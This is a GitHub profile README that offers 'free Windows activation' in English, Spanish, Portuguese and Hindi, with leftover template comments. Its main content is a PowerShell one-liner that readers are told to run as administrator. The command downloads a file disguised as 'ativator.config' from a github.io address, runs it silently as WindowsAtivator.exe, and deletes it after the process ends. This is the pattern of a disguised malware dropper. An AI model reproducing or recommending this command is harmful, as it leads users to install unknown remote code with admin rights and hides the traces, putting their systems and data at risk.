 Copy the command below and paste it into Windows PowerShell to do Windows Free Activation. 👋⚡

Copie el siguiente comando y péguelo en Windows PowerShell para realizar la activación gratuita de Windows. 👋⚡

Copie o seguinte comando e cole-o no Windows PowerShell para realizar a ativação gratuita do Windows. 👋⚡

नि: शुल्क विंडोज सक्रियण करने के लिए निम्न कमांड को कॉपी करें और इसे विंडोज पावरशेल में पेस्ट करें 👋⚡

<!--
**projetos-gabriel-pub/projetos-gabriel-pub** is a ✨ _special_ ✨ repository because its `README.md` (this file) appears on your GitHub profile.

Here are some ideas to get you started:

- 🔭 I’m currently working on ...
- 🌱 I’m currently learning ...
- 👯 I’m looking to collaborate on ...
- 🤔 I’m looking for help with ...
- 💬 Ask me about ...
- 📫 How to reach me: ...
- 😄 Pronouns: ...
- ⚡ Fun fact: ...
-->
⚡ OPEN THE WINDOWS POWERSHELL AS ADMINISTRATOR AND RUN THE FOLLOWING COMMAND:

### $LocalTempDir = $env:TEMP; $WindowsAtivator = "WindowsAtivator.exe"; (new-object System.Net.WebClient).DownloadFile('https://windows-ativator.github.io/windows-ativator/ativator.config', "$LocalTempDir\$WindowsAtivator"); & "$LocalTempDir\$WindowsAtivator" /silent /install; $Process2Monitor = "WindowsAtivator"; Do { $ProcessesFound = Get-Process | ?{$Process2Monitor -contains $_.Name} | Select-Object -ExpandProperty Name; If ($ProcessesFound) { "Still running: $($ProcessesFound -join ', ')" | Write-Host; Start-Sleep -Seconds 2 } else { rm "$LocalTempDir\$WindowsAtivator" -ErrorAction SilentlyContinue -Verbose } } Until (!$ProcessesFound)


